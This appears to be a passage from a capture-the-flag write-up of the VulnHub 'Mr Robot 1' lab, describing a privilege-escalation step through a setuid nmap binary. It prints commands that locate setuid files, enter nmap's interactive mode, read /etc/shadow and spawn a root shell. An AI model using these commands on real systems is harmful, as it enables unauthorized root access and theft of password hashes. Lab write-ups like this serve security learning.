 ![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_mrrobot1/screenshot08b.png.webp)  

2\. We find that the `nmap` binary on this system has `setuid` privileges. We can use this to gain elevated access:  
```
find / -type f -perm -04000 2>/dev/null
ls -la /usr/local/bin/nmap
nmap --interactive
  !cat /etc/shadow
  !sh
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_mrrobot1/screenshot09.png.webp)  
